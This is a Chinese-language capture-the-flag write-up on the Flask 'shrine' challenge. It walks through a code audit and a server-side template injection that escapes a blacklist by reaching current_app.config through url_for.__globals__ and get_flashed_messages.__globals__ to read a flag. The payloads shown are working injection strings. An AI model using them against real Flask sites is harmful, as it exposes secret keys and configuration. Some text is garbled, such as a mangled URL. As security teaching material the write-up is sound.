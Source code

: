 考察知识点：

1.模板注入（ssit)

2.python沙箱逃逸

url_for和get_flashed_messages包含current_app全局变量



1.代码审计

```javascript
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['`{`{`%` set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)

```



2.发现使用jinjia模板引擎

```javascript
    return flask.render_template_string(safe_jinja(shrine))
```

考虑模板注入。



3.shrine路由下尝试模板注入

![](images/5FB53FC720F344DCA88FFAD39542EEB4clipboard.png)

确定存在模板注入



4.源代码显示，config中存在flag

```javascript
app.config['FLAG'] = os.environ.pop('FLAG')
```



但是直接输入config,内容会被替换为none

```javascript
 blacklist = ['config', 'self']
        return ''.join(['`{`{`%` set {}=None%}}'.format(c) for c in blacklist]) + s
```



5.此时需要逃逸



如果没有黑名单的时候，我们可以使用config，传入 config，或者使用self传入 {{self.__dict__}}

 

当config,self,()都被过滤的时候，为了获取讯息，我们需要读取一些例如current_app这样的全局变量。

看了其他师傅的WP，python的沙箱逃逸这里的方法是利用python对象之间的引用关系来调用被禁用的函数对象。

这里有两个函数包含了current_app全局变量，url_for和get_flashed_messages

 

官方文档在https://flask.palletsprojects.com/en/1.0.x/api/#flask.get_flashed_messages

https://flask.palletsprojects.com/en/1.0.x/api/#flask.url_forbaobaoer.cn/archives/656/python-b2e7b180e9b880e793

 

我们注入{url_for.__globals__}得到

![](images/17A2A8EA40014B25A2793D34B008B69384-421565028.png)

 

 

 current_app是当前使用的app，继续注入当前app的config

{url_for.__globals__['current_app'].config}

![](images/CEB4E60659EC4EEF95845826BA2ABB482-1559116334.png)

 

 

 可以看到get flag

get_flashed_messages注入的方法同理



# 6.get_flashed_messages注入

## 6.1 get_flashed_messages获取全局变量

```javascript
/shrine/{{get_flashed_messages.__globals__}}
```



## 6.2 获取current_app的内容

```javascript
/shrine/{{get_flashed_messages.__globals__['current_app'].config}}
```



![](images/4813E2001F9A4F2A829A60A2C1E31C4Eclipboard.png)

